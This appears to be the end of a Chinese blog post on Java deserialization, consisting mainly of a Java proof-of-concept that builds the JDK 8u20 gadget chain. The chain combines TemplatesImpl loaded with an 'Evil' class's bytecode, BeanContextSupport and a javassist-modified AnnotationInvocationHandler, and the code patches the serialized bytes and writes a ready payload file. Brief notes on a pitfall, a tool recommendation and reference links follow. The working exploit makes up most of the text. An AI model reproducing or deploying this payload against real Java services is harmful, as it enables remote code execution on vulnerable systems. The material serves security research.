package Base.Unserialize.Jdk;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import ysoserial.Serializer;

import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextSupport;
import java.io.*;
import java.lang.reflect.*;
import java.util.*;

public class jdk8u20FinalPoc {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        setFieldValue(templates, "_bytecodes", new byte[][]{
                ClassPool.getDefault().get(Base.Unserialize.Base.Evil.class.getName()).toBytecode()
        });

        BeanContextSupport bcs = new BeanContextSupport();
        setFieldValue(bcs, "serializable", 1);

        Class<?> modifiedHandlerClass = createModifiedHandlerClass();
        Constructor<?> ctor = modifiedHandlerClass.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        InvocationHandler ih = (InvocationHandler) ctor.newInstance(Templates.class, new HashMap<>());

        setFieldValue(ih, "type", Templates.class);

        Map<Object, Object> tmpMap = new HashMap<>();
        tmpMap.put(ih, null);
        setFieldValue(bcs, "children", tmpMap);

        Templates proxy = (Templates) Proxy.newProxyInstance(
                jdk8u20FinalPoc.class.getClassLoader(),
                new Class[]{Templates.class},
                ih
        );

        LinkedHashSet<Object> set = new LinkedHashSet<>();
        set.add(bcs);
        set.add(templates);
        set.add(proxy);

        Map<String, Object> memberValues = new HashMap<>();
        memberValues.put("f5a5a608", templates);
        setFieldValue(ih, "memberValues", memberValues);

        String filename = "8u20.ser";
        byte[] ser = Serializer.serialize(set);
        byte[] shoudReplace = new byte[]{0x78,0x70,0x77,0x04,0x00,0x00,0x00,0x00,0x78,0x71};

        int i = findSubarray(ser, shoudReplace);
        ser = deleteBytes(ser, i, 2);

        try (FileOutputStream fos = new FileOutputStream(filename)) {
            fos.write(ser);
        }
    }

    private static Class<?> createModifiedHandlerClass() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.get("sun.reflect.annotation.AnnotationInvocationHandler");
        CtMethod writeObject = CtMethod.make(
                "private void writeObject(java.io.ObjectOutputStream out) throws java.io.IOException {" +
                        "    out.defaultWriteObject();" +
                        "}", cc);
        cc.addMethod(writeObject);
        return cc.toClass();
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static int findSubarray(byte[] array, byte[] subarray) {
        for (int i = 0; i <= array.length - subarray.length; i++) {
            boolean match = true;
            for (int j = 0; j < subarray.length; j++) {
                if (array[i + j] != subarray[j]) {
                    match = false;
                    break;
                }
            }
            if (match) return i;
        }
        return -1;
    }

    private static byte[] deleteBytes(byte[] array, int index, int count) {
        byte[] newArray = new byte[array.length - count];
        System.arraycopy(array, 0, newArray, 0, index);
        System.arraycopy(array, index + count, newArray, index, array.length - index - count);
        return newArray;
    }
}
```



这里有一个坑点就是我们不能直接在poc中反序列化，如果这样的话是必然会失败的，我看到



这一看就不对了，但是原因是什么，我暂时理解为是我在运行时强行修改导致的。

还有个面向对象反序列化的工具 https://github.com/QAX-A-Team/SerialWriter，如果是使用的修改序列化流的话，这个工具非常实用。


> https://xz.aliyun.com/news/9065
>
> https://xz.aliyun.com/news/1399
>
> https://www.inhann.top/2022/09/11/8u20/
>
> https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AF%87%E4%B9%8BJDK8u20/
>
> https://github.com/pwntester/JRE8u20_RCE_Gadget/blob/master/src/main/java/ExploitGenerator.java
